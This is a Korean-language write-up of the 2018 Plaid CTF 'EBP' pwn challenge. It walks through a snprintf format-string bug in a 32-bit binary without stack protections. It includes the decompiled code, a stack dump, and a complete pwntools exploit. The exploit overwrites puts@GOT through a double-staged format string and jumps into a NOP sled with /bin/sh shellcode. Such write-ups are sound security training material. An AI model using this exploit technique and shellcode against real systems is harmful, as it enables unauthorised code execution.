 ```yaml
---
title: "2018 Plaid CTF EBP"
date: 2020-1-27
tags: [Plaid]
categories: [Plaid]
---
```


32비트 바이너리고 Partial RELRO밖에 안 걸려있다.

```
[*] '/vagrant/ctfs/ebp'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

메인에서 전역변수 buf에 입력받는다. 근데 snprintf가 사용되는데 buf에 포맷스트링 있으면 포맷스트링 버그를 일으킬 수 있다. 일단 전역변수로 입력받으니까 Double Staged Format String Bug로 익스해야할거다.

```c
int echo()
{
  make_response();
  puts(response);
  return fflush(stdout);
}

int make_response()
{
  return snprintf(response, 1024u, buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax

  while ( 1 )
  {
    result = fgets(buf, 1024, stdin);
    if ( !result )
      break;
    echo();
  }
  return result;
}
```

snprintf 실행하기 전에 스택을 보면 이렇게 되어있다. 

```
pwndbg> x/50wx $esp
0xffffd350:	0x0804a480	0x00000400	0x0804a080	0xf7fd51b0
0xffffd360:	0xf7fe77eb	0x00000000	0xffffd388	0x0804852c
0xffffd370:	0xffffd3a8	0xf7fee010	0xf7e6915b	0x00000000
0xffffd380:	0xf7fbd000	0xf7fbd000	0xffffd3a8	0x08048557
0xffffd390:	0x0804a080	0x00000400	0xf7fbd5a0	0x00000000
0xffffd3a0:	0xf7fbd000	0xf7fbd000	0x00000000	0xf7e23637
0xffffd3b0:	0x00000001	0xffffd444	0xffffd44c	0x00000000
0xffffd3c0:	0x00000000	0x00000000	0xf7fbd000	0xf7ffdc04
0xffffd3d0:	0xf7ffd000	0x00000000	0xf7fbd000	0xf7fbd000
0xffffd3e0:	0x00000000	0xaf9aa8a5	0x945626b5	0x00000000
0xffffd3f0:	0x00000000	0x00000000	0x00000001	0x08048400
0xffffd400:	0x00000000	0xf7fee010	0xf7fe8880	0xf7ffd000
```

0x0804a480는 response의 주소 0x0804a080는 buf의 주소다. 

익스는 0xffffd368을 보면 0xffffd388를 가르키고 있는 포인터다. 일단 0xffffd368를 puts@got로 덮으면 0xffffd388이 덮일거다. 그리고 puts@got주소를 buf+100으로 덮고 nop sled뒤에 shellcode 넣으면 puts실행될 때 쉘코드가 실행될거다.

> exploit.py

```python
from pwn import *

e = ELF('./ebp')
p = process('./ebp')

#shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
shellcode = '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80'
fflush_got = 0x0804a00c
fgets_got = 0x0804a010
puts_got = 0x0804a014
snprintf_got = 0x0804a020
buf = 0x0804A080

#payload = '%{}c%n'.format('134520852')
payload = "%{}c%4$n".format(e.got['puts'])
p.sendline(payload)

payload2 = '%{}c%12$n'.format(buf+100)
payload2 += '\x90'*300
payload2 += shellcode
p.sendline(payload2)

p.interactive()
```

